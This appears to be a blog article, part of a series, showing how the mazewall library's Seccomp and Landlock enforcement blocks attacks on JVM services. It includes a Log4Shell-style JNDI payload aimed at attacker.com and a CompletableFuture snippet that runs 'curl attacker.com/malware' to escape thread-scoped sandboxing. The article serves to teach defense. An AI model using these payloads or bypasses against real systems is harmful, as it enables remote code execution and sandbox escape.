

# Mazewall: The Attacks We Actually Stop

[](article3-enforcement.md)
[](../../README.md)
[](article5-graalvm.md)

> **Series overview:** This is Part 4 of our series on behavioral security for cloud-native applications. **What this part adds:** real exploit walkthroughs using the **mazewall** demo codebase — demonstrating how thread-scoped Seccomp and Landlock co-enforcement blocks command execution, fileless malware, JIT shellcode injection, and asynchronous `io_uring` evasion. All demonstrations use the mazewall PoC library.

**In this article:**
[Classic Shell Execution](#attack-1-classic-shell-execution-log4shell-style) · [Fileless Malware](#attack-2-fileless-malware-in-memory-execution) · [Shellcode and JIT](#attack-3-shellcode-and-memory-pivoting-jit-evacuation) · [Unauthorized Filesystem Access](#attack-4-unauthorized-filesystem-access-path-traversal) · [io_uring Evasion](#attack-5-asynchronous-evasion-via-io_uring) · [Thread-Hopping](#attack-6-the-thread-hopping-evasion-the-limits-of-the-cage) · [Heat Map & Developer Ergonomics](#scaling-defense-the-application-heat-map)

---

In Parts 2 and 3, we explored how **mazewall** dynamically profiles your code to generate a behavioral contract (SBoB) and how it enforces this contract at the Linux kernel level.

But a security library is only as good as its defense against active exploitation. Today, we put mazewall to the test against five representative attack scenarios — the attack classes these kernel primitives are designed to stop.

We will walk through the exact mechanics of these attacks, see how they execute in an unprotected JVM, and watch the Linux kernel surgically block them under mazewall's containment.

---

## The Attack Lab Setup

All demonstrations are drawn from the `demo` module of the mazewall repository. Our setup represents a standard microservice: a vulnerable logging utility that simulates a Log4Shell-style JNDI lookup vulnerability[^cve202144228]. 

When an attacker sends a malicious payload, the application executes the input, which triggers a ProcessBuilder spawn.

In our unsafe environment, the exploit succeeds instantly:

```kotlin
// BEHAVIORAL PROTECTION: INACTIVE
val payload = "\${jndi:ldap://attacker.com/Exploit?cmd=touch,/tmp/pwned_unsafe}"
UnsafeRunner.run(payload) // Spawn shell command, creating a marker file
```

In our secure environment, the worker thread pool is wrapped with a mazewall policy:

```kotlin
// BEHAVIORAL PROTECTION: ACTIVE
val executor = Executors.newSingleThreadExecutor()
val safeExecutor = ContainedExecutors.wrap(executor, Policy.NO_EXEC)

val payload = "\${jndi:ldap://attacker.com/Exploit?cmd=touch,/tmp/pwned_safe}"
safeExecutor.submit {
    VulnerableLogger.log(payload)
}
```

Let's look at what happens at the systems level during each exploit scenario.

---

## Attack 1: Classic Shell Execution (Log4Shell Style)

### The Threat
An attacker achieves Remote Code Execution (RCE) via a dependency vulnerability (like CVE-2021-44228[^cve202144228]). The exploitation payload commands the application to spawn a shell process (`/bin/sh`) or run a system utility (`touch`, `curl`, `wget`) to establish a foothold or download malicious assets.

### The Mechanics without Mazewall
1. The vulnerable logger parses the malicious input and triggers Java's `ProcessBuilder.start()`.
2. Under the hood, Java's `ProcessBuilder` ultimately results in a process-spawning syscall (`execve` or `execveat`, depending on JDK version).
3. The kernel executes the system call, spawning a new OS process. The attacker successfully compromises the environment.

### The Defense with Mazewall
When the sandboxed worker thread executes `VulnerableLogger.log()`, it does so under `Policy.NO_EXEC`. 

1. `ProcessBuilder` attempts to call `execve`.
2. The kernel's Seccomp engine intercepts the system call on the worker thread.
3. Seccomp evaluates the registered filter, sees that `execve` (and its modern sibling `execveat`) is blocked, and immediately aborts the system call.
4. The system call returns `-1` with `errno` set to `EPERM` (Operation not permitted) directly to the JVM.
5. The JVM translates this into an `IOException` ("Cannot run program..."). The shell process is never spawned.

```
       WORKER THREAD                         LINUX KERNEL
    [ProcessBuilder.start] 
              |
              v
       execve("/bin/sh") -----------> [Seccomp Filter]
                                             |
                                             v (Denied!)
    [IOException] <------------------ Returns EPERM (-1)
 (No process spawned)
```

---

## Attack 2: Fileless Malware (In-Memory execution)

### The Threat
Savvy attackers avoid writing binaries to disk to evade signature-based Endpoint Detection and Response (EDR) agents. Instead, they use a technique called **fileless execution**[^memfd]: they create an anonymous file descriptor in virtual memory, write a malicious binary directly to it, and execute it straight from memory.

### The Mechanics without Mazewall
1. The attacker achieves ACE and invokes the Linux system call `memfd_create(2)`[^memfd] to allocate an anonymous memory-backed file descriptor.
2. They write the compiled ELF payload into the file descriptor.
3. They invoke `execveat(2)` using the file descriptor (e.g. `/proc/self/fd/<fd>`) to execute the binary directly from RAM, leaving zero trace on the disk.

### The Defense with Mazewall (And The ACE Caveat)
If **Tier 1 (Process-Wide)** isolation is active, `mazewall` blocks this attack at three separate checkpoints:
1. **`memfd_create` Blocking:** The `memfd_create` system call is blocked by default in Seccomp.
2. **`execveat` Blocking:** Even if the attacker manages to obtain a memory-backed file descriptor through other means, the `execveat` system call is blocked.
3. **Execution Denial:** The kernel immediately aborts the call with `EPERM`. The fileless binary remains passive data and can never transition into an active process.

> [!WARNING]
> **The Shared-Memory ACE Escape:** If you are *only* using Tier 2 (Thread-Scoped) containment, this defense is structurally bypassed. Fileless malware requires Arbitrary Code Execution (ACE) to invoke native system calls like `memfd_create`. Because all JVM threads share the same address space, an attacker with ACE on a sandboxed thread can simply pivot and corrupt the memory or stack of an *unrestricted* sibling thread, executing their payload there. **Thread-scoped containment alone does not stop ACE.**

---

## Attack 3: Shellcode and Memory Pivoting (JIT Evacuation)

### The Threat
If an attacker cannot spawn an external shell, they may attempt to execute native machine code (shellcode) directly inside the JVM's process memory. 

They write shellcode bytes into an existing Java byte array, locate the array's physical memory address, and attempt to pivot that memory region to "executable" state so the CPU can jump to and execute their instructions.

### The Mechanics without Mazewall
1. The attacker writes their binary payload into a Java byte buffer.
2. They call a native system function (or write off-heap memory via Unsafe) which maps to the Linux `mmap(2)` or `mprotect(2)` system call.
3. They pass `PROT_EXEC` (executable permissions) in the flags to make the memory region executable.
4. The CPU registers are pivoted to point to the address of the shellcode. The shellcode executes with the full privileges of the JVM process.

### The Defense with Mazewall (Process-Wide Only)
Assuming **Tier 1 (Process-Wide)** isolation is active, mazewall uses Classic BPF (cBPF) argument-level inspection to secure memory without breaking the JIT compiler.

1. The thread attempts to invoke `mprotect(address, size, PROT_READ | PROT_WRITE | PROT_EXEC)`.
2. Seccomp intercept matches the `mprotect` system call number.
3. The filter inspects the third argument register (`args[2]`), loading the protection flag bits.
4. It detects the `PROT_EXEC` bit (`0x4`).
5. The filter rejects the call and returns `EPERM`. The memory region remains non-executable (W^X enforced). If the thread subsequently attempts to jump to that memory region, the CPU raises `SIGSEGV` (Segmentation Fault), which the JVM surfaces as a fatal internal error.

> [!WARNING]
> **The Shared-Memory ACE Escape (Again):** Just like Attack 2, writing and executing shellcode requires Arbitrary Code Execution (ACE). If only Tier 2 (Thread-Scoped) isolation is active, the attacker doesn't even need to call `mprotect` on the restricted thread. They will simply pivot their shellcode execution to an unconstrained sibling thread using shared memory.

```
       Worker Thread (Sandboxed)                  Linux Kernel
    [mprotect(..., PROT_EXEC)] -------> [cBPF Argument Check]
                                                   |
                                                   +---> PROT_EXEC detected!
                                                   |     Returns EPERM (-1)
    [ContainmentViolationException] <-------------+
```

---

## Attack 4: Unauthorized Filesystem Access (Path Traversal)

### The Threat
An attacker exploits a local file disclosure vulnerability (or directory traversal) to read sensitive system configuration files (like `/etc/hosts` or `/etc/passwd`) or API credentials stored in local directories.

### The Mechanics without Mazewall
In a standard JVM, Java's `File.readText()` translates directly to `open(2)` or `openat(2)`. The JVM has full read access to the entire underlying filesystem exposed to the container. The attacker reads any system configuration at will.

### The Defense with Mazewall
Under the generated policy from our dynamic profiling run (Part 2), filesystem access is managed by **Landlock LSM**[^landlock].

1. The attacker attempts to read `/etc/hosts`.
2. The JVM translates this into the system call `openat(AT_FDCWD, "/etc/hosts", O_RDONLY)`.
3. Because Landlock is path-aware and active on the thread, the kernel intercepts the open request at the VFS (Virtual File System) layer.
4. The kernel checks the Landlock ruleset for the thread. It sees that the only allowed path is `/tmp/mazewall_app_config.json`.
5. The kernel aborts the operation, returning `EACCES` (Permission denied).
6. Mazewall's violation translator catches the JVM exception and throws a clean, localized `ContainmentViolationException`.

---

## Attack 5: Asynchronous Evasion via `io_uring`

### The Threat

High-performance workloads (such as Netty-based network loops) require modern Linux asynchronous engines like **`io_uring`**[^iouring]. 

To allow this workload, Seccomp must whitelist the initial `io_uring_setup(2)` and `io_uring_enter(2)` system calls. However, Seccomp is fundamentally **blind** to the contents of `io_uring` queues. 

Because `io_uring` works by sharing a lockless ring buffer in memory between userspace and kernelspace, an attacker can submit filesystem reads (like `/etc/hosts`) or network writes by writing commands directly into the queue. The kernel processes these commands asynchronously using background worker threads (`io-wq`), bypassing thread-scoped Seccomp filters entirely!

```
     [SANDBOXED THREAD] 
       |
       | writes command to
       v
     Shared Memory Ring Queue  === (Seccomp is blind to memory writes!) ===> [KERNEL WORKER]
                                                                                 |
                                                                                 v
                                                                           Executes read of
                                                                              /etc/hosts
```

This is the classic asynchronous evasion vector.

### The Defense: Seccomp and Landlock Co-enforcement
Mazewall neutralizes this bypass through the **complementary co-enforcement of Seccomp and Landlock**:

1. **Seccomp** whitelists `io_uring_setup` so the application can initialize its high-performance ring buffer.
2. The attacker uses `io_uring` to submit an asynchronous read command targeting `/etc/hosts`.
3. The kernel's asynchronous workqueue worker (`io-wq`) picks up the command from the shared-memory queue.
4. **The Critical Kernel Invariant:** Before executing the command, the Linux kernel automatically **copies the credentials** of the submitting thread — including its active **Landlock LSM ruleset** — to the asynchronous worker thread. This behavior is established in `io_uring`'s design: `io-wq` workers inherit the submitter's credentials via `io_uring_get_fixed_file()` and the credential-copy path in `io_wq_submit_work()` (introduced with `io_uring` in kernel 5.1 and Landlock integration in 5.13). See `fs/io_uring.c` and `kernel/cred.c` in the kernel source.
5. When the worker thread attempts to execute the read on `/etc/hosts`, the kernel's Landlock hook intercepts the call at the VFS layer.
6. The read is blocked and returns `EACCES` (Permission denied).

```
   Worker Thread (Sandboxed)                  Kernel Async Worker (io-wq)
    [Writes io_uring read command]
                  |
                  v
     Shared Memory Queue -----------------------> Inherits Landlock Ruleset
                                                               |
                                                               v
                                                 Intercepts VFS read("/etc/hosts")
                                                               |
                                                               v (Blocked!)
                                                        Returns EACCES
```

This illustrates the structural advantage of complementary co-enforcement. Seccomp handles the system call surface (allowing high-performance asynchronous setups), while Landlock acts as the VFS backstop, ensuring that asynchronous worker threads remain bound to the application thread's security contract regardless of how they are invoked.

> [!CAUTION]
> **Older Kernel Bypass:** This co-enforcement relies on Landlock being supported by the kernel (Landlock ABI >= 1). If Landlock is unsupported on the host system, it fails-open. Because `io_uring_setup` is whitelisted in Seccomp, an attacker on an older kernel can use `io_uring` to completely bypass the sandbox and perform arbitrary filesystem access.

---

## Attack 6: The Thread-Hopping Evasion (The Limits of the Cage)

### The Threat
Thus far, we have demonstrated Mazewall stopping attacks based on **untrusted data** or **native library vulnerabilities**. But what happens if an attacker achieves Java-level **Remote Code Execution (RCE)** (e.g., via an insecure deserialization flaw or an Expression Language injection like SpEL) and can execute arbitrary Java logic?

### The Mechanics without Mazewall
The attacker dynamically injects a payload that executes a system command, such as `Runtime.getRuntime().exec("curl attacker.com/malware")`. The shell spawns and the system is compromised.

### The Mechanics *With* Mazewall (The Bypass)
If the attacker executes `Runtime.getRuntime().exec` directly on the sandboxed thread, Mazewall will intercept and block it (as seen in Attack 1). 

However, because the attacker has RCE, they can execute a trivial 1-line bypass using standard Java concurrency APIs:

```java
// The attacker wraps their payload in a standard asynchronous call
CompletableFuture.runAsync(() -> {
    Runtime.getRuntime().exec("curl attacker.com/malware");
});
```

1. The attacker submits the closure to `CompletableFuture.runAsync()`.
2. The JVM delegates this task to the pre-existing global worker pool, `ForkJoinPool.commonPool()`.
3. The threads in this common pool were spawned by the OS *at JVM startup*—long before our worker thread applied the Seccomp filter.
4. Because Seccomp filters are only inherited by *new* threads created via the `clone` syscall *after* the filter is applied, the `ForkJoinPool` threads are completely unconstrained.
 
> [!NOTE]
> **TSYNC Limits & Cross-References:** As detailed in Part 3, Seccomp `TSYNC` synchronization requires setting the `no_new_privs` flag on all sibling threads prior to thread creation. In a running JVM, background helper threads already exist without this flag, causing TSYNC to fail with `EACCES` (-13). Furthermore, Landlock TSYNC is unavailable on kernels older than Linux 7.0 (ABI 8). Thus, Tier 2 must remain strictly thread-scoped, making thread-hopping a structural bypass if the attacker has arbitrary Java execution rights.
 
5. The task instantly executes on the unconstrained thread. The shell spawns, and the sandbox is bypassed.

```
       Worker Thread (Sandboxed)                  Global ForkJoinPool (Unconstrained)
    [CompletableFuture.runAsync()]
                  |
                  v (Hops Thread)
                                     =========>   [Executes Payload]
                                                          |
                                                          v
                                                   execve("/bin/sh") ---> (Success!)
```

### The Defense (Process-Wide Isolation)
This bypass highlights the fundamental architectural truth of thread-scoped sandboxing: **Tier 2 (Thread-Scoped) containment is a shield against bad data, not a cage for malicious code.** 

Without the deprecated Java Security Manager (JSM), in-process isolation of untrusted Java code is structurally broken. To stop this attack, you must apply **Tier 1 (Process-Wide) Isolation**.

> [!IMPORTANT]
> **Process-Wide Isolation Setup:** As detailed in Part 3, you cannot apply secure process-wide isolation in `main()` because helper threads have already spawned. The sandbox must be applied *before* the JVM starts, typically via an **OCI container profile** (`no-new-privs`) or a **native launcher wrapper** like **bubblewrap** or **nsjail**.

---

## Summary of Laboratory Results

| Attack Vector           | Primitives Used             | Protected by               | OS Error | Java Exception                    |
|-------------------------|-----------------------------|----------------------------|----------|-----------------------------------|
| **Shell Spawn**         | `execve`                    | Seccomp (`Policy.NO_EXEC`) | `EPERM`  | `IOException: Cannot run program` |
| **Fileless Payload**    | `memfd_create` / `execveat` | **Tier 1 (Process-Wide)**  | `EPERM`  | `ContainmentViolationException`   |
| **Shellcode Injection** | `mprotect(PROT_EXEC)`       | **Tier 1 (Process-Wide)**  | `EPERM`  | `ContainmentViolationException` (then `SIGSEGV` if execution is attempted on the non-executable region) |
| **Path Traversal**      | `openat("/etc/hosts")`      | Landlock (Path filter)     | `EACCES` | `ContainmentViolationException`   |
| **io_uring Evasion**    | `io_uring` submission       | Landlock (Kernel ≥ 5.13)   | `EACCES` | `ContainmentViolationException`   |
| **Thread-Hopping RCE**  | `CompletableFuture`         | **Tier 1 (Process-Wide)**  | `EPERM`  | N/A (Bypasses Tier 2)             |

---

## Scaling Defense: The Application "Heat Map"

Not all code is equally dangerous. To scale thread-scoped sandboxing across a large engineering organization, security teams must map the application's architecture into risk zones. Attackers consistently target the boundary layers where untrusted user input is transformed into executable state.



### 🔥 RED ZONES (High Risk / Must Sandbox)
These are the most vulnerable parts of an application. They should *always* be wrapped in a restricted thread pool (e.g., `Policy.PURE_COMPUTE`).
*   **Deserializers:** Jackson, Gson, SnakeYAML, XStream. (Risk: RCE via gadget chains, memory exhaustion).
*   **Document/Media Parsers:** XML (SAX/DOM), PDF generation, Image processing libraries. (Risk: XXE, SSRF, native memory corruption).
*   **Template Engines:** Spring Expression Language (SpEL), Velocity, FreeMarker. (Risk: Server-Side Template Injection / SSTI).
*   **Native Bridges (JNI/FFM):** Any Java code calling out to C/C++ libraries. (Risk: Buffer overflows, Arbitrary Code Execution).
*   **Webhook Processors:** HTTP clients fetching user-provided URLs. (Risk: SSRF targeting internal cloud metadata endpoints).

### 🧊 BLUE ZONES (Low Risk / Standard JVM execution)
These areas operate on already-sanitized data or internal state. Applying strict sandboxing here is either unnecessary or breaks the application.
*   **Core Business Logic:** Calculating shopping cart totals, generating internal reports, pure math operations.
*   **Data Access Objects (DAOs):** Executing parameterized queries against the database (Requires network access; vulnerable to SQLi, but safe from system-level ACE if parameterized).
*   **Framework Initialization:** Spring Boot context startup, Dependency Injection wiring.

## Developer Ergonomics: Aligning Incentives & Shifting Left

Why is sandboxing so rarely implemented at the application level, despite its clear security benefits? 

It comes down to **Developer Ergonomics and Incentive Alignment**. Software developers are primarily evaluated on feature velocity, not safety. Asking a developer to manually construct complex Linux Seccomp filters or Landlock rule paths introduces immense cognitive load. In their seminal 2016 IEEE paper, [*"Developers are Not the Enemy!: The Need for Usable Security APIs"*](https://ieeexplore.ieee.org/document/7676144)[^green2016], researchers Matthew Green and Matthew Smith argue that security fails because we treat developers as adversaries rather than providing them with usable, developer-centric APIs. 

If security tooling is too complex or introduces high cognitive friction, developers will bypass it to meet deadlines. This is why automated tools like Dependabot or Renovate succeed: they align with developer workflows rather than opposing them.

To scale application containment, security must be built directly into the developer's normal tooling and feedback loops. Google’s yearly [**DORA (DevOps Research and Assessment) Reports**](https://dora.dev/publications/)[^dora] consistently show that integrating automated security practices early in the software development lifecycle ("shifting left") actually correlates with *increased* delivery velocity and organizational performance, rather than slowing teams down.

## The Future: A Sandboxing Linter

Building on the usability principles highlighted in the usable security research[^green2016], the most robust way to enforce these boundaries without relying on developer memory is to automate the validation in the build toolchain. Here is how a future sandboxing linter concept would fit into the development workflow:

1.  **Dependency Scanning:** The linter would flag any class that imports packages from the "Red Zone" (e.g., `import com.fasterxml.jackson.*` or `import javax.xml.*`).
2.  **Enforcement Rule:** It would trace the call graph to ensure that the method invoking the Red Zone library is executed via `ContainedExecutors.wrap(...)` or is annotated with a required policy (e.g., `@Sandboxed(Policy.PURE_COMPUTE)`).
3.  **CI/CD Failure:** If a developer introduced a new vulnerable dependency to process user uploads without sandboxing it, the build would fail:
     > *"🚨 Vulnerability Linter: `UserUploadParser.java` uses `javax.xml.*` but is not wrapped in a ContainedExecutor. Unprotected high-risk parsing detected."*

This would move thread-scoped sandboxing from a manual chore to an automated, cryptographically verifiable DevSecOps pipeline.

---

These demonstrations show that the Linux kernel primitives (Seccomp and Landlock) enforce the behavioral contract against these attack classes when correctly applied. The defense is implemented in the kernel, not in application-level code that an attacker could bypass.

But how does this work in large-scale production? How do we handle massive, dynamic JVM frameworks (like Spring or Micronaut) where reflection, dynamic proxy generation, and massive dependency graphs make runtime profiling complex?

In **Part 5**, we will explore how to scale SBoB generation to production using Ahead-of-Time (AOT) compilation and GraalVM Native Image. And in **Part 6**, we will revisit Attack 6 — the Thread-Hopping bypass — and see how GraalVM Isolates close that gap permanently.

> [!TIP]
> **Try this now:** Run `strace -f -e trace=process ./gradlew test` to see how subprocesses are spawned and tracked across threads on your system during test executions.

---

*Next Up: [Part 5: Generating an SBoB for Java: Where We Are and What's Missing](article5-graalvm.md)*

[^green2016]: Matthew Green and Matthew Smith, ["Developers are Not the Enemy!: The Need for Usable Security APIs"](https://ieeexplore.ieee.org/document/7676144), IEEE Security & Privacy, 2016.
[^memfd]: Sandfly Security: memfd_create fileless malware. https://sandflysecurity.com/blog/detecting-linux-memfd_create-fileless-malware-with-command-line-forensics/
[^cve202144228]: CVE-2021-44228 (Log4Shell) NVD entry. https://nvd.nist.gov/vuln/detail/CVE-2021-44228
[^dora]: DORA (DevOps Research and Assessment) Reports. https://dora.dev/publications/
